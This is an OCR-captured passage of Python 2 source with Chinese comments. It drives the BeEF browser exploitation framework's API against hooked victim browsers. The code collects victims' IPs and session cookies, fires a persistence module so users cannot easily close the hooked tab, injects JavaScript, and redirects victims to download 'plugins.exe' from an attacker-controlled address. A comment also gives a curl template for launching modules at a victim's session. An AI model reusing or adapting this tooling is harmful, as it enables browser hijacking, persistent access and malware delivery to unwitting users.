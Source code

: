 ```
    return jsondata['token']

	
# 2、获得hook主机列表,session值就是cookie
def getHookedBrowsersSession(host,authkey):
	# 用到了前面的API key
    f = urllib2.urlopen(host + "/api/hooks?token=" + authkey)
    data = json.loads(f.read())
    hookonline = data['hooked-browsers']['online']
    for x in hookonline:
        hookid = hookonline[x]['id']
        hookip = hookonline[x]['ip']
        hooksession = hookonline[x]['session']
        if hookid not in hostdict:
            hostdict[hookid] = hooksession
            print "\n[+] Hooked host id:  " + bytes(hookid) + "\n   >>> IP: " + bytes(hookip) + "\n   >>> Session: " + hooksession

#3、模块使用	
# 终端命令：curl -i -H "Content-Type: application/json; charset=UTF-8" -d '{各个模块需要的额外的参数}' http://xxxxx/api/modules/【受害者浏览器】session/模块id?token=【authkey】
#受害者在试图关闭选项卡时会向用户显示"关闭确认"对话框，
#通过这种方式来增加shell的存活时间
# persistence -> confirm close tab
def sendConfirm(host, session, authkey):
    postdata = '{}'
    url = host + "api/modules/" + session + "/46?token=" + authkey
    #print url
    req = urllib2.Request(url, postdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    f = urllib2.urlopen(req)
    print "   >>> [+] Module Confirm Close Tab has been Executed ! "
    return f.read()			
	
	
# 使用beef模块，弹窗功能
# Misc -> IBM iNotes -> RAW js
def execJavascript(host, session, authkey):

    payload={
        "cmd":"alert('Hello by ssooking!');"
    }
	# 169是beef模块的id
    apiurl = host + "api/modules/" + session + "/3?token=" + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    response = urllib2.urlopen(req)
    resdata = response.read()
    print "   >>> [+] Module Raw JavaScript has been Executed ! "
    return resdata

# 使受害者浏览器跳转到一个下载页面并下载。。。

def redirectBrowser(host, session, authkey):
    payload = {"redirect_url":"http://192.168.137.134:8000/plugins.exe"}
    apiurl = host + "api/modules/" + session + "/42?token=" + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    response = urllib2.urlopen(req)
    resdata = response.read()
    jsondata =  json.loads(resdata)
```